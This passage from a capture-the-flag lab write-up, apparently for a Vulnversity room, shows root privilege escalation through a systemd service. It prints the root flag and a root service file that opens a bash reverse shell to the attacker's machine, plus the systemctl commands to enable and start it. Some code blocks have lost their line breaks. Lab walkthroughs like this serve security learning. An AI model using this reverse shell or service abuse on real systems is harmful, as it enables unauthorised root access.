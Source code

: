 Let's use the "/var/tmp" directory for all the operations from here on out.

![Finding Flag on System](images/thm-vulnversity/finding-flag.png)

Once we run the service we see a file is created in our current directory and when we cat its contents we are given the flag for the root user.

> a58ff8579f0a9270368d33a9966c7fd5

**Note:** An alternate approach to getting root privileges would be to create a service file that would start a reverse shell which we could connect to using a listener on our system and then capture the flag.

The script service file for this approach would look as follows:

```
[Service]Type=simpleUser=rootExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<kali-ip-address>/9999 0>&1'[Install]WantedBy=multi-user.target
```

And we could run the service file using the following commands:

```
/bin/systemctl enable /var/tmp/root.service/bin/systemctl start root
```

That's all. Happy Hacking :)